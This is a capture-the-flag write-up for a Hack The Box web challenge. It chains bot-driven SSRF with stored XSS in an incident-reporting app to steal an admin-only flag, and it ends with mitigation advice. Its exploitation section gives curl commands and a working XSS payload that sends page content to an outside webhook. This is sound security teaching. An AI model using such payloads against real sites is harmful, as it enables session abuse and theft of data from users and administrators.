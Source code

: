 # Blackout Ops - CTF Write-Up

## Challenge Overview

**Challenge Name:** Blackout Ops  
**Category:** Web  
**Difficulty:** easy  
**Flag:** `HTB{l00k0ut_f04_mult1p4rt_byP455_4nd_gr4phQL_bug5_a70ebf5351f3d0d483467a54f35b3682}`

This is a web application that simulates a security incident reporting system. The application uses Express.js with GraphQL and has several critical vulnerabilities that can be chained together to extract the flag.

## Initial Reconnaissance

### Application Structure
- **Frontend:** HTML templates with JavaScript
- **Backend:** Express.js with GraphQL API
- **Database:** SQLite
- **File Upload:** Supports file uploads for evidence
- **Bot:** Puppeteer bot that visits submitted evidence URLs with admin credentials

### Key Endpoints
- `/` - Login page
- `/dashboard` - Main dashboard (requires authentication)
- `/admin` - Admin panel (admin role required) - **Contains the flag**
- `/graphql` - GraphQL API endpoint
- `/upload` - File upload endpoint
- `/files/*` - Static file serving for uploads

## Vulnerability Analysis

### 1. SSRF (Server-Side Request Forgery) via Bot
**Location:** `challenge/graphql/resolvers.js:104-118`

When submitting an incident report with an `evidenceUrl`, the bot automatically visits the URL with admin credentials:

```javascript
if (args.evidenceUrl) {
  db.get("SELECT email, password FROM users WHERE role = 'admin' LIMIT 1", [], (err, adminUser) => {
    if (err || !adminUser) {
      console.error("Error fetching admin credentials:", err || "No admin user found");
    } else {
      const bot = require('../bot');
      bot.visitReport(args.evidenceUrl, adminUser.email, adminUser.password)
        .catch(err => console.error("Bot error:", err));
    }
  });
}
```

### 2. Stored XSS in Admin Panel
**Location:** `challenge/views/admin.html:85-133`

The admin panel renders incident reports without proper HTML escaping:

```javascript
container.innerHTML = reports.map(report => `
  <div class="terminal p-4 border border-cyan-400/50">
    <h3 class="text-sm mb-2">${report.title}</h3>    // XSS HERE
    <p class="text-xs text-cyan-500/80 mb-4">${report.details}</p>  // XSS HERE
  </div>
`).join('');
```

### 3. Flag Exposure in Admin Panel
**Location:** `challenge/routes/pages.js:28-29`

The admin route reads the flag and renders it directly in the template:

```javascript
router.get('/admin', (req, res) => {
  if (!req.session.user || req.session.user.role !== 'admin') {
    return res.redirect('/dashboard');
  }
  const flag = fs.readFileSync('/flag.txt', 'utf8');
  res.render('admin.html', { flag });  // Flag rendered in <h4>{{flag}}</h4>
});
```

## Exploitation Strategy

### Step 1: Account Registration and Verification

First, register an account and verify it to gain access to incident reporting:

```bash
# Register account
curl -X POST "http://target:port/graphql" \
  -H "Content-Type: application/json" \
  -d '{
    "query": "mutation { register(email: \"test@blackouts.htb\", password: \"password123\") { id email inviteCode verified } }"
  }'
```

```bash
# Login to get session cookie
curl -X POST "http://target:port/graphql" \
  -H "Content-Type: application/json" \
  -c cookies.txt \
  -d '{
    "query": "mutation { login(email: \"test@blackouts.htb\", password: \"password123\") { id email verified } }"
  }'
```

```bash
# Verify account with invite code
curl -X POST "http://target:port/graphql" \
  -H "Content-Type: application/json" \
  -b cookies.txt \
  -d '{
    "query": "mutation { verifyAccount(inviteCode: \"INVITE_CODE_HERE\") { id email verified } }"
  }'
```

### Step 2: Create XSS Payload

Create an incident report with a stored XSS payload that will execute when the admin bot views the admin panel:

```json
{
  "query": "mutation { submitIncidentReport(title: \"Evidence\", details: \"<img src=x onerror='setTimeout(function(){var flag=document.querySelector(\\\"h4\\\").textContent;var img=new Image();img.src=\\\"https://webhook.site/YOUR-WEBHOOK-ID?flag=\\\"+encodeURIComponent(flag);},2000)'>\", evidenceUrl: \"http://example.com\") { id } }"
}
```

This payload:
1. Uses an `<img>` tag with invalid `src` to trigger `onerror`
2. Waits 2 seconds for the page to load
3. Extracts the flag from the `<h4>` element containing `{{flag}}`
4. Sends the flag to an external webhook via an image request

### Step 3: Trigger the Bot

Submit another incident report to trigger the bot to visit the admin panel:

```bash
curl -X POST "http://target:port/graphql" \
  -H "Content-Type: application/json" \
  -b cookies.txt \
  -d '{
    "query": "mutation { submitIncidentReport(title: \"Trigger\", details: \"trigger bot\", evidenceUrl: \"http://127.0.0.1:1337/admin\") { id } }"
  }'
```

### Step 4: Collect the Flag

The bot will:
1. Visit the admin panel with admin credentials
2. Load all incident reports (including our XSS payload)
3. Execute the JavaScript payload
4. Extract the flag from the admin page
5. Send it to your webhook

Check your webhook logs to retrieve the flag!

## Attack Chain Summary

```
1. Register Account → 2. Verify Account → 3. Submit XSS Payload → 4. Trigger Bot → 5. Extract Flag
```

## Key Vulnerabilities Exploited

1. **SSRF:** Bot visits user-controlled URLs with admin privileges
2. **Stored XSS:** Incident report fields not properly sanitized
3. **Information Disclosure:** Flag directly rendered in admin panel HTML
4. **Authentication Bypass:** Using bot's admin session to access restricted content

## Mitigation Recommendations

1. **Input Sanitization:** Properly escape all user input before rendering in HTML
2. **URL Validation:** Restrict bot to only visit trusted domains/URLs
3. **CSP Headers:** Implement Content Security Policy to prevent XSS
4. **Bot Isolation:** Run bot in sandboxed environment with limited privileges
5. **Secret Management:** Don't expose sensitive data directly in templates

## Additional Vulnerabilities Found

- **Hardcoded Session Secret:** `'your-secret-key'` in app.js
- **Path Traversal:** File upload accepts `../` sequences
- **No Password Hashing:** Passwords stored in plaintext
- **No File Type Validation:** Upload accepts any file type
- **SQL Injection Potential:** Some parameterized queries could be vulnerable

This challenge demonstrates how multiple vulnerabilities can be chained together to achieve full compromise of a web application.

## Write-Up Credit: [binchickens69](https://ctf.hackthebox.com/user/profile/605069)